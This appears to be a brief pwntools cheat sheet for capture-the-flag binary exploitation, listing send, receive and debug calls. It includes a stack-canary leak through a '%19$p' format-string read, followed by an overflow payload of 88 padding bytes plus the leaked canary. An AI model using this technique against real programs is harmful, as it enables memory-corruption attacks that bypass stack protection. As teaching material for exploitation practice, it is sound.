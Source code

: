 *Examples*

*send one line*
io.sendline("")

*rec until* 
io.recvuntil("")

*output for debug*
info("")

*recv canary*
io.recvuntil("string")
io.sendline("%19$p")
canary = io.recvline().strip() 
*print canary for output*
info(f"canary = {canary}")
*send canary in payload*
io.sendline(("A"*88).encode()+p64(int(canary, base=16)))
